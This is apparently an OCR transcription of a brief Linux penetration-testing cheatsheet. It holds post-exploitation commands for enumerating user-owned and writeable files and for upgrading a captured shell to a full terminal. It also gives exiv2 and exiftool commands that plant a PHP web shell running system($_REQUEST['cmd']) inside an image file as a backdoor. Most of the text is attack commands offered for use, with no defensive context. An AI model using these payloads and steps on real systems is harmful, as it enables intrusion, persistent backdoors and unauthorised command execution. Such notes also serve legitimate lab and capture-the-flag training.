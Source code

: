 *CHEATSHEET*
**Linux**

Find user owned files
~~~
find / -user $(whoami) 2>/dev/null | egrep -v '(/proc)'
~~~

Find writeable files
~~~
find / -writeable 2>/dev/null | egrep -v '(/proc|/run|/dev)'
~~~

Upgrade shell with Python
~~~
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo
F+G+ENTER
~~~

Find files that aren't installed by the system
~~~
for i in $(ls $(pwd)/*); do dpkg --search $i 1>/dev/null; done
~~~

Inject PHP into image
~~~
exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
exiftool “-comment<=back.php” back.png
~~~